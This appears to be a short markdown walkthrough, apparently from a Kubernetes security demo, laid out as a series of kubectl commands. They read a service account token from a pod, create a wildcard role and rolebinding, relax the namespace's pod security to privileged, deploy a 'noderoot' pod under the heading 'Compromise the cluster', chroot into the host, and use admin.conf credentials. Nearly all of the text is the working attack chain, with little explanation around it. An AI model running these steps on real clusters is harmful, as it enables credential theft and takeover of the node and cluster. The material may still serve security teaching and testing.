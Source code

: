 ### Get a Token - Read Token

```bash
kubectl exec token-read -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | jwt decode -
```

```bash
export TOKEN=$(kubectl exec token-read -- cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

### Check Permissions Again

```bash
kubectl --token=$TOKEN auth can-i --list
```

### RBAC - Namespace Admin for developers!

```bash
kubectl --token $TOKEN create role --verb='*' --resource='*.*' nsadmin
```

```bash
kubectl --token $TOKEN create rolebinding --role nsadmin --serviceaccount dev:developer nsadmin
```

```bash
kubectl auth can-i --list
```

### Modifying Namespace Labels

```bash
kubectl label ns dev pod-security.kubernetes.io/enforce=privileged --overwrite
```

### Validate our changes - did we fix our problem?

```bash
kubectl get pods
```

### Compromise the cluster

```bash
kubectl apply -f manifests/noderoot.yml
```

### Proof

```bash
kubectl exec -it noderootpod -- chroot /host
```

### Using admin.conf & super-admin.conf

```bash
kubectl --kubeconfig=/etc/kubernetes/admin.conf auth can-i --list
```
